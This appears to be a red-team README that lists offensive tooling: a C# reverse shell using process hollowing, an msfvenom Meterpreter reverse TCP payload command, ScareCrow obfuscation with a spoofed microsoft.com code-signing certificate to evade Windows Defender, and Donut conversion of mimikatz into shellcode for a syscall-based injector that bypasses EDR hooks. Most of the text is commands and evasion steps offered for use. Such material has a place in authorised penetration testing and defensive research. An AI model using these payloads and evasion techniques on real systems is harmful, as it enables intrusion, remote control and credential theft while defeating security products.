 # redteam

## source-codes
***reverse-shell-hollowing.cs*** - This C# code executes a reverse shell using the Process Hollowing technique, where a victim process is created in a suspended state, its original process (e.g.: notepad.exe) is carved out from memory, a malicious binary gets written instead and the program state is resumed to execute the injected code.</br> 
You can compile it with `mcs hollowing.cs`

## Useful Commands

***ScareCrow*** - This framework generates a "obfuscated" binary using some bypass techniques like DLL unhooking, ETW patching and Code signing(The same as ***limelighter*** does).</br> Example of usage:</br> You can generate a malicious binary and test in your windows vm if it is detected by windows defender:</br> `msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=IP LPORT=443 -f raw -o malware.bin`</br> Then, use ScareCrow to generate obfuscated versions:</br> `./ScareCrow -I malware.bin -domain www.microsoft.com -encryptionmode AES` (You can change the encryption mode to ELZMA)</br>
>  When signing the loader with microsoft.com, using them against WINDOWS DEFENDER ATP products may not be as effective as they can validate the cert as it belongs to them. If you are using a loader against a windows product, possibly use a different domain.</br>


***Donut*** - The main goal of this tool is to generate shellcode from .NET Assemblies(eg. mimikatz.exe) both a Windows EXE and a Python (Python planned for v1.0) script are provided for payload generation. That allows loading and executing payloads directly in memory.</br>
Command example: `./donut mimikatz.exe -a 2`</br>
Then, with mimikatz's shellcode, you must create an injector which is using syscalls in order to bypass AV/EDR which is mainly focused on Userland API hookings. Before implementing the use of *syscalls*, it is necessary to first identify the native "syscall" equivalent of the Windows API used in the baseline code.

>Native API

>NtOpenProcess
>NtAllocateVirtualMemory
>NtWriteVirtualMemory
>NtCreateThreadEx
>NtClose
